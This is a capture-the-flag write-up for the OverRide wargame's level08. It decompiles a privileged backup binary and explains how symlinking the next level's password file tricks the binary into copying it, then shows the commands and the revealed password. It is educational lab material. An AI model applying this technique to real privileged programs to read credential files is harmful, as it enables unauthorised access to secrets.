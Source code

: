 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  FILE *v4;
  FILE *stream;
  int fd;
  char buf;
  char dest[104];
  unsigned __int64 v9;

  v9 = __readfsqword(28);
  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  v4 = fopen("./backups/.log", "w");
  if ( !v4 )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(v4, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, 193, 432LL);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(v4, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

### Explanation

This binary takes a file path as a parameter and prints its content in `"./backups/"` + `argv[1].`

It first checks whether the path `"./backups/.log"` exists, file where it writes logs indicating whether `"./backups/"` + `argv[1]` was successfully opened and closed.

Next, the program verifies if the specified file and its path can be opened (with the privileges of the user **level09**) by calling `fopen()`.

Finally, it calls `open()` to create a file in `"./backups/"` with our parameter as its name and then uses `write()` to save the file's content.

To obtain the password for the next user, we need to pass the path of the password file owned by **level09** as a parameter for the program that is alse owned by **level09** to read.

### Explanation

The first issue is that we must pass a valid path that does not start with a backslash `"/"`, otherwise, when the path is created here:

```c
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));
fd = open(dest, 193, 432LL);
```

and then passed into `open()`, the resulting string will contain two `"/"` characters in a row, creating an invalid path causing the program to `exit()`.

The second issue is that if we pass the file containing the password for the next level as a parameter, we won’t be able to open it since we lack the necessary permissions.

To bypass these issues, we will create a symbolic link to `"/home/users/level09/.pass"`, because it will:

  1. Provide a valid format to `open()`, as the symbolic link's name will be used instead of its full path, avoiding the double backslash issue.

  2. Resolve ownership restrictions, since symbolic links can be read by anyone, allowing `open()` to successfully access the password file.

## Step 2: Exploiting the Binary

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat ./backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```